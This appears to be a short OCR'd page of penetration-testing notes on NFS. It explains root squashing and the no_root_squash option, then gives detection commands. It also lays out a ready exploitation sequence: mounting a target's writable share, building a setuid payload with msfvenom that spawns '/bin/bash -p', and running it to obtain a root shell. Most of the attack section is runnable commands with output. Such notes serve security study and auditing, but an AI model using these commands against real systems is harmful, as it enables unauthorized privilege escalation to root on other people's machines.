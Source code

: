## NFS

Network File System (NFS) is a popular distributed file system.

NFS shares are configured in the /etc/exports file.

Remote users can mount shares, access, create, and modify files.

### Root Squashing

This is how NFS prevents privilege escalation.

If the remote user is root (uid=0), NFS will instead "squash" the user and treat them as if they are in the nobody group.

### no\_root\_squash

This is an NFS configuration that turns root squashing off.

When included in a writable share configuration, a remote user who identifies as root can create files on the NFS share as the local root user!

How to detect this?

```
cat /etc/exports

showmount -e <target-ip>
/tmp *
```

How to exploit this:

```
mkdir /tmp/nfs
mount -o rw,vers=2 <target-ip>:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
ls -l /tmp
```

Connecting to reverse shell:

```
/tmp/shell.elf
bash-4.1#
```



##
